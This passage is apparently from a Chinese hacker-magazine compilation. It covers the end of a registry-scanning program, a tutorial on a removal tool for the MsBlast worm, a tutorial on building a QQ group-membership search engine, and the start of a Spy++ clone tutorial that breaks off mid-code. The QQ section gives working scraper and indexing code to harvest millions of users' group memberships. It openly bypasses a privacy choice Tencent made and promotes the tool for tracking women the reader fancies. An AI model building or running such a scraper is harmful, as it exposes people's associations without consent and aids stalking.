            if (StealReg(str, "F:\\BCB\\Program Files\\Common Files\\Borland Shared\\BDE\\"))
            {
                ResultCount++;
            }
            index++;
            num = MAX_PATH;
        }

        index = 0;
        while (RegEnumKeyEx(hKey, index, str, &num, NULL, NULL, NULL, NULL) == 0)
        {
            // 遍历子项后进行递归
            printf("%s\n", str);
            strcpy(temp, SubKey);
            // 这样做是必须的，不然通常情况下都会出现异常
            strcat(temp, "\\");
            strcat(temp, str);
            EnumReg(temp); // 递归
            index++;
            num = MAX_PATH;
        }
    }
    else
    {
        printf("Can't Open The Key!\n");
    }
    RegCloseKey(hKey);
}

void main()
{
    EnumReg("software");
    printf("\n\n符合条件的值共有 %d 条!\n\n", ResultCount);
}
```

好了，上面的代码都是可以直接保存为文本文档编译运行的，但由于注册表实在太庞大了，所以要在里面找到全部的东西耗时实在有点长，如果要更加完善的话，就需要大家一起努力了，欢迎大家与我一起讨论、进步。

> 【本文涉及的代码（程序），请见随书光盘】

### 简单打造蠕虫病毒专杀工具

文／图 Scuhkr／古开元

网络上经常充斥着 N 多公司的专杀工具，如冲击波、震荡波专杀工具等，最常见的就是大名鼎鼎的毒霸和瑞星专杀工具了。大伙用了都说好，可是你有没有想过它们是怎么实现的呢？今天我们就来学习一下如何打造一个简单的蠕虫病毒专杀工具吧！

- 1. 发现机器比往常慢了，“Ctrl+Alt+Del”调出任务管理器，找到可疑的病毒程序；
- 2. 上 Google，查询可疑病毒程序的相关资料；
- 3. 如果发现真是病毒，有专杀工具，则下载杀毒；无专杀工具，则记下手动杀毒的步骤。

而一般病毒的手动查杀步骤如下：

- 1. “Ctrl+Alt+Del”再次调出任务管理器，强行关闭病毒程序；
- 2. 根据资料从注册表删掉病毒相关的自启动项和关联项；
- 3. 根据资料查找磁盘目录（一般为系统目录），删掉病毒程序文件；
- 4. Windows Me 或 Windows XP 关闭系统还原功能；
- 5. 重启机器。

其实，蠕虫病毒的专杀工具也是按照手动查杀的步骤，一步一步通过程序来实现的（本文略去了关闭系统还原的步骤）。下面，我们就拿一年半前风靡全球的 MsBlast.exe（本文以 MsBlast.A 为例，其他的病毒变体类似）蠕虫病毒来做实例分析，并实现自己的专杀工具。

根据上面所说的，我们分而治之，逐个击破。

### 第一步 终止蠕虫病毒程序

我定义了一个 KillBlastProcess() 函数，它的职能跟我们终止一般程序过程一样，黑防上几乎每期必讲，就是查找蠕虫病毒进程，提升自身权限，然后终止蠕虫病毒程序。这里涉及的知识点有：

- 1）查找蠕虫病毒进程 MsBlast.exe。查找进程的方法不下 4 种，这里用的是 Win32 SDK 的 Tool Help 函数集中的 API 函数来实现查找；
- 2）提升程序自身权限。这一步并不是必须的，有些病毒简单地调用 TerminateProcess() 就可以终止了。但是为了以防万一和通用性，提升自身权限就很有必要了。

重要的代码段如下：

```c
/* 获得系统内所有进程的快照 */
hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

pe32.dwSize = sizeof(PROCESSENTRY32);
if (Process32First(hProcessSnap, &pe32)) {
    do {
        if (strnicmp(pe32.szExeFile, "msblast.exe", 11) == 0) {
            printf("Located MS Blast Process (%d)...\n", pe32.th32ProcessID);
            if (!EnableDebugPrivilege()) {
                printf("EnableDebugPrivilege() failed\n");
                bRet = FALSE;
            }
            bFoundProcess = TRUE;
            hBlastProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, pe32.th32ProcessID);
            if (hBlastProcess == NULL) {
                printf("Could not open MS Blast Process...\n");
                bRet = FALSE;
            } else {
                if (!TerminateProcess(hBlastProcess, 0)) {
                    printf("Could not terminate MS Blast Process...\n");
                    bRet = FALSE;
                } else {
                    printf("MS Blast Process Has been Terminated...\n");
                    bRet = TRUE;
                }
            }
        }
    } while (Process32Next(hProcessSnap, &pe32));
}

CloseHandle(hBlastProcess);

if (bFoundProcess) {
    bRet = TRUE;
} else {
    printf("MS Blast Process Was Not Running...\n");
    bRet = FALSE;
}
```

提升权限的函数实现如下：

```c
BOOL EnableDebugPrivilege()
{
    HANDLE hToken = NULL;
    LUID luid;
    TOKEN_PRIVILEGES tkp;

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken)) {
        printf("OpenProcessToken failed\n");
        return FALSE;
    }

    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid)) {
        printf("LookupPrivilegeValue failed\n");
        return FALSE;
    }

    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Luid = luid;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    if (!AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL)) {
        printf("AdjustTokenPrivileges() failed. %d\n", GetLastError());
        return FALSE;
    }

    CloseHandle(hToken);
    return TRUE;
}
```

### 第二步 删掉相关的注册表项

对于 MsBlast.exe 蠕虫病毒，只需要删除注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 里的 `windows auto update` 键就可以了。具体实现是很简单的注册表操作，代码如下：

```c
BOOL KillBlastReg()
{
    printf("\nAttempting to Clean Registry...\n");
    ...
}
```

```cpp
// 打开注册表键
if ((RegOpenKeyEx(HKEY_LOCAL_MACHINE,
    "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
    0, KEY_ALL_ACCESS, &hLocKey) != ERROR_SUCCESS)) {
    printf("Unable to Load Registry Key...\n");
    return FALSE;
} else {
    printf("Registry Key has been Successfully Loaded...\n");
}

// 删除操作
if (RegDeleteValue(hLocKey, "windows auto update") != ERROR_SUCCESS) {
    printf("Unable to Delete Registry Value...It Might Not Exist...\n");
    return FALSE;
}
return TRUE;
```

### 第四步 重启机器

这步的实现我在附件给出的源代码没有加入。但读者自己可以加入实现部分，这一步是很重要的。为什么呢？要知道，计算机病毒名字的来由就是从现实生活中的病毒细菌生命力强和破坏力大继承而来的，重启机器可以防止蠕虫病毒潜在的一些机关再次引发病毒体死而复活的可能。重启的实现很简单，代码片段如下：

```cpp
LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &luid);
// 获得的是 SE_SHUTDOWN_NAME 关机权限
ExitWindowsEx(EWX_REBOOT | EWX_FORCE, 0);
// 强制重启
```

首先也要提升权限，可以定义一个 EnableShutDownPrivilege() 函数，实现和上面基本一样。以上代码（源文件参看附件 mblast_kill.cpp）在 Windows XP SP1 + VC6.0 环境下编译通过，测试运行结果如下图所示。

这里要说的是：对于现在 Internet 上流行的很多蠕虫病毒，它们在注册表里做的手脚很多，很可能在很多注册表项里都安装了后门键值。这个时候大家在查找的时候就要仔细，不要轻易漏过一项，否则导致的后果很可能是蠕虫病毒重启后再次起死回生。

### 第三步 删除蠕虫病毒文件

对 Msblast.exe 来说，病毒体文件是放在系统盘的 Windows 目录。假如你是系统盘为 C 盘，则 Windows 2000 下的是 C:\\winnt 目录，Windows XP 下就是 C:\\windows 目录。实现代码如下：

```cpp
BOOL KillFile() {
    printf("\nAttempting to Remove msblast.exe...\n");
    // 通过环境变量获得病毒体全路径
    GetEnvironmentVariable("SYSTEMROOT", chrMsBlast, MAX_PATH);
    strncat(chrMsBlast, "\\msblast.exe", 12);

    // 删除操作
    if (DeleteFile(chrMsBlast) == 0) {
        return FALSE;
    }

    printf("Ms Blast.A.exe has been deleted successfully\n");
    return TRUE;
}
```


#### 后记

一个简单的冲击波蠕虫病毒专杀工具就这样诞生了。是不是很简单呢？不过，你应该始终相信一点，简单的实现只能做简单的查杀。对于一些自身保护措施做得很到位的蠕虫病毒，比如使用了挂钩 Hook 技术，或使用了远程线程 DLL 注入技术的蠕虫病毒，我们进行查杀就相对复杂得多，而且往往会很伤脑筋。

除通过环境变量获得病毒体路径外，还可以用 GetWindowsDirectory() 或 GetSystemDirectory() 这两个 API 分别查找 Windows 目录和 System32 目录。更一般的，如果要在整个磁盘查找，就需要用 FindFirstFile() 和 FindNextFile() 进行遍历，有兴趣的读者可以自己实现。

在网络攻与防的较量中，没有任何技术是绝对不可攻破的。正是这种攻与防的不断较量，引发了黑客技术的不断提升和飞跃。衷心希望广大读者能伴随着黑防一起不断成长！

## 其他类

### 编写自己的搜索引擎

查找用户 QQ 群


文／图 王炜／ww0830

现在上网越来越离不开搜索引擎了，Google、Baidu、Yahoo……大大地方便了我们从浩如烟海的网络信息中迅速找到需要的东西。只要输入关键字，它就会把带有关键字的网页全部返回给我们，是不是觉得很神奇呢？其实，搜索引擎一点都不神秘，我们自己也可以很容易地编写出一个搜索引擎。

听了这话，是不是自己也想写一个呢？这次我们就来编写一个我们实际关心的，而且能完成 Google、Baidu、腾讯都没有的功能——查询 QQ 用户加入了哪些群的功能的搜索引擎。

腾讯出于安全和隐私的考虑，没有提供查询某人加入了哪些群的功能，但对用户来说就不是很方便了。特别是对 GG 们来说，如果知道了心仪的 MM 们加入了哪些群，自己也跟进去，就可以大大增加套近乎的机会了，哈哈……是不是像《伤城》的网络版呢？下面我们就来完成这个搜索引擎吧。其主要功能就是输入一个 QQ 号码，返回的搜索结果为这个 QQ 号所加入的所有 QQ 群。

任何一个搜索引擎，无论是 Google、Baidu 还是我们自己的这个引擎，其实现都分为 3 个步骤：一是信息的获取，二是建立索引，三是通过索引完成查询请求，返回搜索的结果。如果这 3 个步骤我们都可以实现，那么我们也可以实现整个搜索引擎了。这 3 步我们能实现吗？能！所以我们编写出了下面的查询 QQ 号所加入群的搜索引擎。

#### 获取信息

对于 Google 和 Baidu 来说，它们获取信息的方式是通过在网络上投放大量的网页蜘蛛（Spider）来实现的。网页蜘蛛提取出网页内容，并根据网页上的链接进入到下一层页面中，从而不断地提取。而对于我们这个搜索引擎来说，则是要获得群的用户信息。

群的用户信息放在哪里呢？我们随便打开一个群的信息进行查看，如果是公开的群，则可以看到全部的群用户信息，其网址是如下的形式：

`http://group.qq.com/cgi-bin/groupuserall?groupid=群的号码`

如图 1 所示，鼠标点在 QQ 头像上，就会给出用户的 QQ 号码。通过查看源代码，发现是 `title="QQ号码"` 的形式，那我们的 Spider 就可以写出来了，用各个群号码访问对应的用户网页，再提取出所有 `title="` 字符后面的 QQ 号码即可。提取号码可以用各种各样的方法，本文使用的是正则表达式的方法，主要的代码和注释如下所示。


```cpp
// 构造用户号码信息的网页 URL
string url = "http://group.qq.com/cgi-bin/groupuserall?groupid=" + GroupID;

// 使用 WebClient 抓取网页的内容
WebClient browser = new WebClient();
UTF8Encoding enc = new UTF8Encoding();
string strHTMLContents;
try
{
    // 获取网页的内容，存储在 strHTMLContents 中
    strHTMLContents = enc.GetString(browser.DownloadData(url));
}
catch (WebException exp)
{
    // 如果出错，返回
}
```

```cpp
// 正则表达式提取 title
string p3 = "title=\"[0-9]+\"";
Regex r = new Regex(p3, RegexOptions.IgnoreCase);
MatchCollection m = r.Matches(strHTMLContents);
for (int i = 0; i < m.Count; i++) {
    string x = m[i].Value;
    string strQQNumber = x.Substring(7, x.Length - 8);
    sw.WriteLine(strQQNumber);
}
```

```cpp
// main
int _tmain(int argc, _TCHAR* argv[]) {
    hash_map<unsigned long, QQMemberInfo> hMemberQQs;
    long lGroupID;      // 群号
    int nGroupNum;      // 群拥有的用户数目
    unsigned long lQQ;  // QQ号码

    while (cin >> lGroupID) {
        cin >> nGroupNum;
        if (nGroupNum == 0) continue;
        for (int j = 0; j < nGroupNum; j++) {
            cin >> lQQ;
            if (hMemberQQs.find(lQQ) != hMemberQQs.end()) {
                hash_map<unsigned long, QQMemberInfo>::iterator it = hMemberQQs.find(lQQ);
                it->second.m_vGroupVec.push_back(lGroupID);
            } else {
                QQMemberInfo qqInfo;
                qqInfo.m_vGroupVec.push_back(lGroupID);
                hMemberQQs[lQQ] = qqInfo;
            }
        }
    }
}
```

上面的代码输入不同的 GroupID，就可以将该群所包括的用户 QQ 号码全部抓取下来了。

#### 建立索引

获得信息之后，就需要建立索引来方便查询了。搜索引擎都使用倒查表来建立索引，就是将抓取到的信息倒过来，把关键字建立成某种可以高效查询的数据结构，而在关键字存储位置存一些用户感兴趣的信息。

对 Google 和 Baidu 来说，索引的关键字就是英文单词和中文词组，而存储的信息就是这些词出现的网页、地址和位置，当用户搜索单词时，就返回出现这些词的网页和页面中的位置。

对应的，在我们的搜索引擎中，索引的关键字是 QQ 号码，而存储信息则是 QQ 号所加入的群号码。索引我们采用 `hash_map` 来建立，因为 long 是内置类型，所以我们用 vector 存储用户加入的 QQ 群也可以保证效率，其主要的代码结构如下所示。

```cpp
struct QQMemberInfo {
    vector<long> m_vGroupVec;  // vector 存储用户加入的群号码
};

hash_map<unsigned long, QQMemberInfo> hMemberQQs;
// 索引：QQ 号为关键字，对应加入的群信息
```

用于建立索引的主要代码和注释如下所示。

```cpp
struct QQMemberInfo {
    vector<long> m_vGroupVec;
    // vector 存储用户加入的群号码
};
```

### 实现 QQ 加入群的查询

建立好索引后，主要工作就基本完成了，剩下的只要对用户输入的 QQ 号码在索引中进行查询，然后再输出对应的 QQ 所加入的那些群即可。

```cpp
while (1) {
    cout << "Please enter query QQ:" << endl;
    unsigned long lQuery;
    cin >> lQuery;
    if (hMemberQQs.find(lQuery) != hMemberQQs.end()) {
        hash_map<unsigned long, QQMemberInfo>::iterator it = hMemberQQs.find(lQuery);
        // 输出该 QQ 号加入的群数量及群号
    }
}
```

```cpp
cout << "Has Group Number: " << it->second.m_vGroupVec.size() << endl;

// 依次输出加入的群号码
vector<long>::iterator iter = it->second.m_vGroupVec.begin();
for (; iter != it->second.m_vGroupVec.end(); iter++) {
    cout << (*iter) << endl;
}

else { // 如果索引中没有该号码，输出不在索引中
    cout << lQuery << " is not in the Index" << endl;
}
```


所有代码完成后，最后的效果如图 2 所示。现在各位小编、老编们所加入的群数量和号码我都知道了，哈哈！最后说一句，抓取的信息越全面，查询的结果就越全面，这与 Google 和 Baidu 是一个道理。

我自己建立了 1 千多万用户的索引，已经耗费了 800 多 M 的内存了，如果机器更好点，建立更大的索引，就可以查得更全了。

[本文涉及的代码（程序），请见随书光盘]

### VC 轻松打造 Spy++


文／图 阿珊境界

用 Visual Studio 搞开发的朋友对 Spy++ 这个工具一定不陌生，它可以分析窗体结构、进程和窗口消息，对开发工作有很大的辅助作用。我们最常使用它的窗口查找功能，按 Ctrl+F 调出其查找窗口，拖动探测器的指针到指定窗口/控件上释放即可。下面，我就和大家一起，用 VC 打造一个属于自己的 Spy++。

打开 VC 集成开发环境，建立一个基于对话框的工程，我们把这个工程取名为 SpyXX。在窗体中画上一个图片框控件（Picture）、一个静态文本控件（Static）、两个复选框控件（Check Box）和一个选项卡控件（Tab Control），界面设计如图 1 所示。


探测器的制作需要两个图标文件（.ico）和一个鼠标光标文件（.cur），分别用于正常状态下的显示、鼠标拖出时的显示以及拖出时的鼠标指针……

项卡控件定义 5 个标签页，分别为“常规”、“样式”、“类”、“窗口”和“消息”。每个标签页的内容用一个属性页（Property Page）对话框来制作。下面，我们按照顺序详述一下整个开发过程。

### 探测器的制作

探测器用一个图片框控件来显示，正常状态下显示一幅有靶的图标。当鼠标在上面按下时，显示内容立刻换为另一幅无靶的图标，同时鼠标指针变为靶状。这样，就给人一种靶心被拖出去的感觉了。通过上面的叙述，我们了解到图片框需要响应 WM_LBUTTONDOWN 消息和 WM_LBUTTONUP 消息。而图片框在正常状态下只响应鼠标单击消息 BN_CLICK。所以，我们要通过子类化来响应上述两个消息。

把图片框的 ID 设为 IDC_PIC，并选中其 Notify 属性（否则不响应消息）。依次点击菜单“Insert -> New Class”，Class type 选择 MFC Class，类名取为 CMyPic，基类为 CStatic。添加 CSpyXXDlg 类的私有成员变量 CMyPic m_pic，在对话框的初始化过程中将其与图片框关联，代码如下所示。

```cpp
BOOL CSpyXXDlg::OnInitDialog()
{
    CDialog::OnInitDialog();
    m_pic.SubclassDlgItem(IDC_PIC, this);
    return TRUE;
}
```

这样，在 CMyPic 类中，我们就可以响应鼠标左键按下和弹起的消息了。按 Ctrl+W 打开 Class Wizard，选择 Message Maps 标签页，在 Class name 下拉列表中选择 CMyPic。从 Messages 列表中分别增加 WM_LBUTTONDOWN 和 WM_LBUTTONUP 消息，并接受其默认函数名 OnLButtonDown 和 OnLButtonUp。图标交换和鼠标光标交换的代码如下。

```cpp
void CMyPic::OnLButtonDown(UINT nFlags, CPoint point)
{
    SetCapture();
    HCURSOR hc = LoadCursor(AfxGetApp()->m_hInstance, MAKEINTRESOURCE(IDC_CURSOR1));
    SetCursor(hc);
    HICON hicon2 = LoadIcon(AfxGetApp()->m_hInstance, MAKEINTRESOURCE(IDI_ICON2));
    this->SetIcon(hicon2);
    CStatic::OnLButtonDown(nFlags, point);
}
```

```cpp
void CMyPic::OnLButtonUp(UINT nFlags, CPoint point)
{
    ReleaseCapture();
    HICON hicon1 = LoadIcon(AfxGetApp()->m_hInstance, MAKEINTRESOURCE(IDI_ICON1));
    this->SetIcon(hicon1);
    CStatic::OnLButtonUp(nFlags, point);
}
```

至此，探测器外观就制作完成了。我们可以先运行一下，把鼠标按下后拖动试试。下面我们来实现其功能。获取窗口句柄，根据鼠标位置来确定窗口需要用到 API 函数 GetCursorPos 和 WindowFromPoint。此外，我们还想做到像抓图程序那样，鼠标移动到的地方，窗口四周会出现闪烁的矩形。这一点，我们用定时器来实现。定时器设在 CSpyXXDlg 类中，但要由 CMyPic 中的 OnLButtonUp 来启动。所以，我们定义一个全局变量 g_hMe 将 CSpyXXDlg 的实例句柄保存起来。同时，被选取的窗口句柄也涉及在多个标签页中显示，所以也用全局变量 g_hWnd 将之保存。其余的用于显示标签页的属性页对话框句柄分别用 g_hPage0、g_hPage1、g_hPage2、g_hPage3 和 g_hPage4 来保存。这里，大家也可以建立一个类去管理这些全局变量。启动定时器的代码如下。

```cpp
FromHandle(g_hMe)->SetTimer(1, 600, NULL);
```

在定时器中，我们要实现桌面范围内的矩形绘制，其实现代码如下。

```cpp
POINT pnt;
RECT rc;
HWND DeskHwnd = ::GetDesktopWindow();
HDC DeskDC = ::GetWindowDC(DeskHwnd);
int oldRop2 = SetROP2(DeskDC, 10);
GetCursorPos(&pnt);
HWND UniHwnd = ::WindowFromPoint(pnt);
g_hWnd = UniHwnd;
GetWindowRect(g_hWnd, &rc);
if (rc.left < 0) rc.left = 0;
if (rc.top < 0) rc.top = 0;
HPEN newPen = ::CreatePen(0, 3, 0);
HGDIOBJ oldPen = SelectObject(DeskDC, newPen);
Rectangle(DeskDC, rc.left, rc.top, rc.right, rc.bottom);
Sleep(400);
Rectangle(DeskDC, rc.left, rc.top, rc.right, rc.bottom);
SetROP2(DeskDC, oldRop2);
SelectObject(DeskDC, oldPen);
```

```cpp
::DeleteObject(newPen);
::ReleaseDC(DeskHWnd, DeskDC);
DeskDC = NULL;
```

到此，探测器功能全部完成。

#### 两个复选框

第一个复选框是“总在最上面”，其代码如下。

```cpp
void CSpyXXDlg::OnChktop()
{
    int nTop=((CButton*)GetDlgItem(IDC_CHKTOP))->GetCheck();
    if(nTop==1)
        ::SetWindowPos(m_hWnd,HWND_TOPMOST,0,0,0,0,SWP_NOMOVE|SWP_NOSIZE);
    else
        ::SetWindowPos(m_hWnd,HWND_NOTOPMOST,0,0,0,0,SWP_NOMOVE|SWP_NOSIZE);
}
```

第二个复选框是“16进制”。因为其值影响到多个属性页对话框的内容，所以我们也用一个全局变量 `g_nHex` 来保存它，代码如下所示。

```cpp
void CSpyXXDlg::OnChkhex()
{
    g_nHex=((CButton*)GetDlgItem(IDC_CHKHEX))->GetCheck();
}
```

这里，我们还建立了一个全局函数 `Display`，用来输出16进制和10进制时的句柄值。

```cpp
CString Display(int nVal)
{
    CString str;
    if(g_nHex==1) {
        str.Format("%x",nVal);
        str.MakeUpper();
    } else
        str.Format("%d",nVal);
    return str;
}
```

#### 选项卡控件

选项卡控件中，5个标签页对应5个属性页对话框，与它们关联的类分别取名为 `CPage0`、`CPage1`、`CPage2`、`CPage3` 和 `CPage4`。在 `CSpyXXDlg` 中建立私有成员变量 `m_page0`、`m_page1`、`m_page2`、`m_page3` 和 `m_page4`，在其初始化过程中建立这5个属性页对话框。

```cpp
m_page0.Create(IDD_OLE_PROPPAGE_LARGE,GetDlgItem(IDC_TAB1));
m_page1.Create(IDD_OLE_PROPPAGE_LARGE1,GetDlgItem(IDC_TAB1));
m_page2.Create(IDD_OLE_PROPPAGE_LARGE2,GetDlgItem(IDC_TAB1));
m_page3.Create(IDD_OLE_PROPPAGE_LARGE3,GetDlgItem(IDC_TAB1));
m_page4.Create(IDD_OLE_PROPPAGE_LARGE4,GetDlgItem(IDC_TAB1));

CRect rs;
m_tab.GetClientRect(rs);
rs.top+=20;
rs.bottom-=3;
rs.left+=3;
rs.right-=3;
m_page0.MoveWindow(rs);
m_page1.MoveWindow(rs);
m_page2.MoveWindow(rs);
m_page3.MoveWindow(rs);
m_page4.MoveWindow(rs);
m_page0.ShowWindow(SW_SHOW);
m_tab.SetCurSel(0);
```

然后在选项卡消息 `TCN_SELCHANGE` 响应函数中控制它们的显示。

```cpp
void CSpyXXDlg::OnSelchangeTab1(NMHDR* pNMHDR, LRESULT* pResult)
{
    int i=m_tab.GetCurSel();
    switch(i) {
    case 0:
        m_page0.ShowWindow(SW_SHOW);
        m_page1.ShowWindow(SW_HIDE);
        m_page2.ShowWindow(SW_HIDE);
        m_page3.ShowWindow(SW_HIDE);
        m_page4.ShowWindow(SW_HIDE);
        break;
    case 1:
        m_page0.ShowWindow(SW_HIDE);
        m_page1.ShowWindow(SW_SHOW);
        m_page2.ShowWindow(SW_HIDE);
        m_page3.ShowWindow(SW_HIDE);
        m_page4.ShowWindow(SW_HIDE);
        break;
    case 2:
        ...
    default:
        break;
    }
    *pResult = 0;
}
```

## 常规标签页

常规标签页负责显示窗口句柄、窗口类名、标题文本、窗口矩形、窗口ID、进程ID和程序路径。控制其显示或改变应在 `CMyPic` 的 `WM_LBUTTONUP` 响应函数中进行。实现代码如下。

```cpp
((CPage0*)FromHandle(g_hPage0))->m_editHWND.SetWindowText(Display((int)g_hWnd));
char strClass[200]={0};
::GetClassName(g_hWnd,strClass,200);
((CPage0*)FromHandle(g_hPage0))->m_editCLASS.SetWindowText(strClass);
((CPage2*)FromHandle(g_hPage2))->SetDlgItemText(IDC_EDITCLASSNAME,strClass);

char strTitle[200]="\0";
::GetWindowText(g_hWnd,strTitle,200);
((CPage0*)FromHandle(g_hPage0))->m_editTITLE.SetWindowText(strTitle);

long iWNDID=GetWindowLong(g_hWnd,GWL_ID);
((CPage0*)FromHandle(g_hPage0))->m_editWNDID.SetWindowText(Display((int)iWNDID));

unsigned long iPID=0;
GetWindowThreadProcessId(g_hWnd,&iPID);
((CPage0*)FromHandle(g_hPage0))->m_editPID.SetWindowText(Display((int)iPID));

CString strPath;
strPath=getProcPath(iPID);
((CPage0*)FromHandle(g_hPage0))->m_editPATH.SetWindowText(strPath);

RECT rc;
::GetWindowRect(g_hWnd,&rc);
CString strRect;
strRect.Format("(%d,%d),(%d,%d) %dx%d",rc.left,rc.top,rc.right,rc.bottom,rc.right-rc.left,rc.bottom-rc.top);
((CPage0*)FromHandle(g_hPage0))->m_editRECT.SetWindowText(strRect);
```

样式值做“位与”操作，如果被包含，则返回其窗口样式，否则返回0。这样，就可以得到窗口样式的列表了。扩展样式列表与样式列表类似。相关代码如下所示。

```cpp
CListBox* pListStyle=(CListBox*)(((CPage1*)FromHandle(g_hPage1))->GetDlgItem(IDC_LIST_STYLE));
CListBox* pListExStyle=(CListBox*)(((CPage1*)FromHandle(g_hPage1))->GetDlgItem(IDC_LIST_EXSTYLE));
CEdit* pEditStyle=(CEdit*)(((CPage1*)FromHandle(g_hPage1))->GetDlgItem(IDC_EDIT_STYLE));
CEdit* pEditExStyle=(CEdit*)(((CPage1*)FromHandle(g_hPage1))->GetDlgItem(IDC_EDIT_EX_STYLE));

long style=::GetWindowLong(g_hWnd,GWL_STYLE);
long styleEx=::GetWindowLong(g_hWnd,GWL_EXSTYLE);

pEditStyle->SetWindowText(Display((int)style));
pEditExStyle->SetWindowText(Display((int)styleEx));

pListStyle->ResetContent();
pListExStyle->ResetContent();

if(style & WS_BORDER) pListStyle->AddString("WS_BORDER");
if(style & WS_CAPTION) pListStyle->AddString("WS_CAPTION");
if(style & WS_CHILD) pListStyle->AddString("WS_CHILD");
```

其中，`getProcPath` 是获取进程文件路径的函数。获取进程路径的方法有两种：在 NT 系统中，我们可以用 `OpenProcess()` 函数将进程打开后，再利用 `EnumProcessModules()` 函数枚举该进程的模块，最后利用 `GetModuleFileNameEx()` 函数就能取得该进程的路径；第二种方法是利用 ToolHelp API 中的相关函数。后者兼容 Windows 9x 和 NT4.0 以后系统，所以本文采取此法。它的实现代码如下。

```cpp
CString getProcPath(int iPID)
{
    HANDLE hModule;
    MODULEENTRY32* minfo=new MODULEENTRY32;
    minfo->dwSize=sizeof(MODULEENTRY32);

    hModule=CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, iPID);
    Module32First(hModule, minfo);

    CString str;
    str.Format("%s",minfo->szExePath);

    CloseHandle(hModule);
    if(minfo) delete minfo;
    return str;
}
```

## 样式标签页

样式标签页设计如图2所示。API 函数 `GetWindowLong` 可以获取窗口样式或扩展样式的值。我们罗列出以 `WS_` 开头的所有窗口样式与上述样式值做位与操作，如果被包含，则返回其窗口样式，否则返回0。

## 类标签页

类标签页的设计如图3所示。类名在常规标签页已获取。API 函数 `GetClassLong` 可以获取类样式值。样式列表的实现与窗口样式类似，不再赘述。

图3

## 窗口标签页

窗口标签页的设计如图4所示。在该页中，主要用到了以下几个 API 函数：`GetNextWindow`、`GetWindow` 和 `SendMessage`，这3个 API 函数搭配不同的参数值可以实现不同的功能。这里没有用 `GetWindowText` 函数，是因为它不能取出部分系统窗口和隐藏窗口的标题。我们用 `SendMessage` 函数加 `WM_GETTEXT` 参数取代它，实现代码如下。

图4

```cpp
CPage3* pPage3=(CPage3*)FromHandle(g_hPage3);
HWND tempHandle;
char tempstr[255]="\0";

tempHandle = g_hWnd; // 本窗口句柄
pPage3->SetDlgItemText(IDC_MYHWND, Display((int)tempHandle));
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_MYTITLE, tempstr);

// 上一窗口
tempHandle = ::GetNextWindow(g_hWnd, GW_HWNDPREV);
pPage3->SetDlgItemText(IDC_PREVHWND, Display((int)tempHandle));
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_PREVTITLE, tempstr);

// 下一窗口
tempHandle = ::GetNextWindow(g_hWnd, GW_HWNDNEXT);
pPage3->SetDlgItemText(IDC_NEXTHWND, Display((int)tempHandle));

memset(tempstr,0,255);
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_NEXTTITLE, tempstr);

tempHandle = ::GetParent(g_hWnd); // 父窗口
pPage3->SetDlgItemText(IDC_PARENTHWND, Display((int)tempHandle));
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_PARENTTITLE, tempstr);

tempHandle = ::GetWindow(g_hWnd, GW_CHILD); // 子窗口
pPage3->SetDlgItemText(IDC_CHILDHWND, Display((int)tempHandle));
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_CHILDTITLE, tempstr);

tempHandle = ::GetWindow(g_hWnd, GW_OWNER); // 所有者窗口
pPage3->SetDlgItemText(IDC_OWNERHWND, Display((int)tempHandle));
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_OWNERTITLE, tempstr);
```

## 消息标签页

消息标签页的设计如图5所示。该页中的列表框与样式列表框不同，它的每个列表项前都有一个复选框。

图5

这要用到类 `CCheckListBox`。这里要再次用到子类化的知识。在本文第一段制作 `CMyPic` 的过程中，我们体会到了子类化的作用，也感到了它的不便之处。这里，我们采取另外一种方法，即用 Class Wizard 生成相关代码，然后再修改它。首先在该属性页对话框上画一个列表控件，打开 Class Wizard 关联一个 `CListBox` 类变量 `m_listStatus`，设置列表框的 Owner Draw 属性为 Fixed，并选中其 Has Strings 选项，如图6所示。然后，在 `Page4.h` 中查找到 `m_listStatus` 的定义 `CListBox m_listStatus`，并将其改为 `CCheckListBox m_listStatus`。这样，我们就可以使用 `CCheckListBox` 的全部函数了。在对话框初始化过程中添加下列语句以加入各列表项：

图6

```cpp
CCheckListBox* plistStatus=((CCheckListBox*)FromHandle(g_hPage4)->GetDlgItem(IDC_LISTSTATUS));
plistStatus->AddString("窗口可见");
plistStatus->AddString("窗口可用");
plistStatus->AddString("总在最前");
plistStatus->AddString("窗口只读");
plistStatus->AddString("最大化");
plistStatus->AddString("最小化");
plistStatus->AddString("窗口还原");
plistStatus->AddString("关闭窗口");
plistStatus->AddString("激活窗口");
```

接下来我们要判断，当窗口/控件被选定后，哪些列表项被勾选。这个判断过程与样式列表的实现类似，如第一项“窗口可见”，其代码如下所示。其余各项详见源代码。

```cpp
long style = GetWindowLong(g_hWnd, GWL_STYLE);
if (style & WS_VISIBLE)
{
    plistStatus->SetCheck(0,1);
}
```

这个列表框的作用不仅仅是显示窗口的状态，还要在发生勾选改动时即时改变窗口状态或激发其行为。勾选状态改变的消息是 `LBN_SELCHANGE`。另外，为了不使一个勾选的改变就引起所有列表项都激发一遍，我们采用 `switch` 结构，以使哪个列表项被选中就激发哪个列表项。实现代码如下。

```cpp
void CPage4::OnSelchangeListstatus()
{
    int n=m_listStatus.GetCurSel();
    switch(n)
    {
    case 0:
        if(m_listStatus.GetCheck(0)==1)
            ::ShowWindow(g_hWnd, SW_SHOW);
        else
